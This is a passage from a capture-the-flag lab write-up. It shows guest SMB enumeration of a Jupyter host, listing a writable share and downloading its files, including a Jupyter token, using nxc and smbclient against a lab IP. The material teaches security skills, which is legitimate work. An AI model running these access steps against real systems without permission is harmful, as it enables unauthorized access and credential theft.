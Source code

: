 We some interesting ports open. Looking at port 8888, there is a notebook server.

![Jupyter interface](/img/weasel/jupyter.png)

Unfortunately, we don't have a token or password. Next, I took a look at the SMB shares on port 445 and noticed that guest access was allowed.

```
┌──(kali㉿kali)-[~]
└─$ nxc smb 10.10.34.193 -u guest -p '' --shares
SMB         10.10.34.193    445    DEV-DATASCI-JUP  [*] Windows 10 / Server 2019 Build 17763 x64 (name:DEV-DATASCI-JUP) (domain:DEV-DATASCI-JUP) (signing:False) (SMBv1:False)
SMB         10.10.34.193    445    DEV-DATASCI-JUP  [+] DEV-DATASCI-JUP\guest: 
SMB         10.10.34.193    445    DEV-DATASCI-JUP  [*] Enumerated shares
SMB         10.10.34.193    445    DEV-DATASCI-JUP  Share           Permissions     Remark
SMB         10.10.34.193    445    DEV-DATASCI-JUP  -----           -----------     ------
SMB         10.10.34.193    445    DEV-DATASCI-JUP  ADMIN$                          Remote Admin
SMB         10.10.34.193    445    DEV-DATASCI-JUP  C$                              Default share
SMB         10.10.34.193    445    DEV-DATASCI-JUP  datasci-team    READ,WRITE      
SMB         10.10.34.193    445    DEV-DATASCI-JUP  IPC$            READ            Remote IPC
```

We have read and write permissions on the nonstandard ```datasci-team```  share. Taking

```
┌──(kali㉿kali)-[/tmp]
└─$ smbclient //10.10.34.193/datasci-team -U guest --password=''
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Dec 22 21:13:41 2024
  ..                                  D        0  Sun Dec 22 21:13:41 2024
  .ipynb_checkpoints                 DA        0  Thu Aug 25 10:26:47 2022
  Long-Tailed_Weasel_Range_-_CWHR_M157_[ds1940].csv      A      146  Thu Aug 25 10:26:46 2022
  misc                               DA        0  Thu Aug 25 10:26:47 2022
  MPE63-3_745-757.pdf                 A   414804  Thu Aug 25 10:26:46 2022
  papers                             DA        0  Thu Aug 25 10:26:47 2022
  pics                               DA        0  Thu Aug 25 10:26:47 2022
  requirements.txt                    A       12  Thu Aug 25 10:26:46 2022
  weasel.ipynb                        A     4308  Thu Aug 25 10:26:46 2022
  weasel.txt                          A       51  Thu Aug 25 10:26:46 2022

                15587583 blocks of size 4096. 8928179 blocks available
smb: \> 
```

I transferred everything to my local machine for easier enumeration.

```
smb: \> lcd /tmp/smb
smb: \> recurse on
smb: \> prompt off
smb: \> mget *
getting file \Long-Tailed_Weasel_Range_-_CWHR_M157_[ds1940].csv of size 146 as Long-Tailed_Weasel_Range_-_CWHR_M157_[ds1940].csv (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
getting file \MPE63-3_745-757.pdf of size 414804 as MPE63-3_745-757.pdf (109.2 KiloBytes/sec) (average 68.5 KiloBytes/sec)
getting file \requirements.txt of size 12 as requirements.txt (0.0 KiloBytes/sec) (average 58.5 KiloBytes/sec)
getting file \weasel.ipynb of size 4308 as weasel.ipynb (4.7 KiloBytes/sec) (average 52.4 KiloBytes/sec)
getting file \weasel.txt of size 51 as weasel.txt (0.1 KiloBytes/sec) (average 47.1 KiloBytes/sec)
getting file \.ipynb_checkpoints\requirements-checkpoint.txt of size 12 as .ipynb_checkpoints/requirements-checkpoint.txt (0.0 KiloBytes/sec) (average 42.6 KiloBytes/sec)
getting file \.ipynb_checkpoints\weasel-checkpoint.ipynb of size 5972 as .ipynb_checkpoints/weasel-checkpoint.ipynb (6.3 KiloBytes/sec) (average 39.4 KiloBytes/sec)
getting file \misc\jupyter-token.txt of size 52 as misc/jupyter-token.txt (0.1 KiloBytes/sec) (average 36.3 KiloBytes/sec)
```

[^1]: You can read still the flags here, but AFAIK getting command execution on Windows isn't possible from the mounted filesystem.